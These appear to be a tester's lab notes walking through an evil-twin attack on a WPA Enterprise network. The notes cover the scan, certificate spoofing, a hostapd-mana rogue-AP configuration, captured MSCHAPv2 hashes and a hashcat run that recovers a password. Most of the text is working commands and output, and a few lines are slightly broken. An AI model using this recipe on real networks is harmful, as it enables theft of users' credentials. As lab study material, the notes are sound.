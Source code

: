 ## WPA Enterprise

```text
sudo airodump-ng wlan0mon
```
```text
BSSID              PWR Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
FC:EC:DA:8F:2E:90  -40     639       19    1   2  300. WPA2 CCMP   MGT  Playtronics
```
MGT, meaning WPA Enterprise

####To view Certificate for SSID
```text
sudo airodump-ng wlan0mon -w Playtronics
```
Review in wireshark with filter "wlan.bssid=FC:EC:DA:8F:2E:90 && eap && tls.handshake.certificate"
in the submenus of the reviewed packet - open EAP -> TLS -> Certificate -> Certificates

The certificate once exported can be reviewed with openssl to get the 

openssl x509 -inform der -in cert.der text
 
### To mimick this AP

### Setup Certificates

```text
sudo apt install freeradius
sudo -s
cd /etc/freeradius/3.0/certs
```

```text
nano ca.cnf
....
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
....
```

```text
nano server.cnf
....
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
....
```

```text
rm dh
make destroycerts
```

### Setup hostapd-mana - AP
```text
sudo apt install hostapd-mana
```
```text
nano /etc/hostapd-mana/mana.conf

ssid=Playtronics
interface=wlan0
driver=nl80211
channel=1
hw_mode=g
ieee8021x=1
eap_server=1
eapol_key_index_workaround=0
eap_user_file=/etc/hostapd-mana/mana.eap_user
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

auth_algs=1
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP TKIP

mana_wpe=1
mana_credout=/tmp/hostapd.credout
mana_eapsuccess=1
mana_eaptls=1
```
```text
nano /etc/hostapd-mana/mana.eap_user

*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


### Start the AP with certificate
```text
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

### Output
```text
MANA EAP EAP-MSCHAPV2 ASLEAP user=user1 | asleap -C 5f:57:b0:b6:d1:6d:e0:82 -R e7:db:11:00:06:f7:49:02:0e:e9:17:61:c8:d2:d4:a4:e5:4b:a7:fa:9b:97:81:4e
MANA EAP EAP-MSCHAPV2 JTR | user1:$NETNTLM$5f57b0b6d16de082$e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082
```


### Crack with Asleap
I could not get this to work ....
```text
asleap -C 5f:57:b0:b6:d1:6d:e0:82 -R e7:db:11:00:06:f7:49:02:0e:e9:17:61:c8:d2:d4:a4:e5:4b:a7:fa:9b:97:81:4e -W /usr/share/john/password.lst
```


### Crack with Hashcat
5500 | NetNTLMv1 / NetNTLMv1+ESS

```text
echo user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082 > wpa_enterprise.txt
hashcat -m 5500 wpa_enterprise.txt rockyou.txt

user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082:password1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5500 (NetNTLMv1 / NetNTLMv1+ESS)
```












